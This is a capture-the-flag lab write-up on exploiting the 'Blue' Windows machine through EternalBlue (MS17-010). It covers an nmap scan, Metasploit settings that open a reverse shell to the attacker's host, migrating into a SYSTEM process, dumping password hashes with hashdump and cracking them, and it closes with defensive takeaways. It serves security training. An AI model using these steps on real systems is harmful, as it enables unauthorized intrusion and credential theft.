







# 🟦 Machine 01 — Blue

## 📌 Overview
Blue is a Windows machine vulnerable to EternalBlue (MS17-010).  
The objective is to identify the SMB vulnerability, exploit it to gain a shell, and escalate privileges to obtain full system access.

---

## 🔍 1. Enumeration

### 🔸 Nmap Scan

```nmap -sCV -n -Pn -p- -oN scan.nmap <TARGET_IP>```

---

### 🔸 Key Findings
- SMB (port 445) open  
- Potential MS17-010 vulnerability  
- Windows 7 / Server 2008 R2 fingerprint  

---

## 🛠️ 2. Tools Used

These are the primary tools and utilities used during the assessment of this machine:

- **Nmap** — Network scanning and service enumeration    
- **Metasploit Framework** — Exploitation and payload handling  

---

## 🎯 3. Exploitation

### 🔸 EternalBlue (MS17-010)
- Vulnerability confirmed
  
- Use of Metasploit for payloads
  

- Setting payload to use



- Setting options:
  - set RHOST $IP
  - set LHOST $ATTACKER-IP
  - set LPORT $ATTACKER-PORT
  - run

    

---

## 🚀 4. Privilege Escalation
Since EternalBlue grants SYSTEM, no additional escalation is required.  


Now we need to upgrade our shell to a Meterpreter shell, because the next step is to hashdump to extract the hash of the non-default user. To do this, we use the "background" command or just Ctrl+Z, then load the module post(multi/manage/shell/to/meterpreter), change the SESSION option and select SESSION 2 'meterpreter x86/windows'.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM. 

Migrate to this process

```migrate $ID```

- Use of hashdump
  


To obtain Jon’s password, I used CrackStation, but it’s also possible to do it with JohnTheRipper or Hashcat.

---

## 📂 5. Loot & Flags
- Logged in as Administrator, the flag1.txt file is located in the C:\ directory

 
- Logged in as Administrator, the flag2.txt file is located in the same directory as the SAM database C:\windows\System32\config

  
- Logged in as Jon, the flag3.txt file is located in C:\Users\Jon\Documents

   

---

## 🛡️ 6. Defensive Takeaways
- Unpatched SMB vulnerabilities such as MS17‑010 remain one of the most critical attack vectors, and systems exposed to the network without updates are at immediate risk of remote code execution.  
- SMBv1 should be fully disabled across the environment, as it is outdated, insecure, and unnecessary for modern Windows deployments.  
- Network segmentation and strict access control on SMB shares significantly reduce the blast radius of exploitation attempts and lateral movement.  

---

## 🧠 7. Lessons Learned
- A single missing patch can lead to full system compromise, demonstrating the importance of continuous vulnerability management.  
- Metasploit’s automation simplifies exploitation, but understanding the underlying vulnerability (EternalBlue) is essential for real‑world scenarios.  
- Post‑exploitation enumeration is crucial, as gaining a shell is only the beginning; validating privileges, persistence options, and credential access defines the actual impact.  
- Legacy protocols and services dramatically increase attack surface, reinforcing the need to audit and deprecate outdated components in Windows environments. 
 
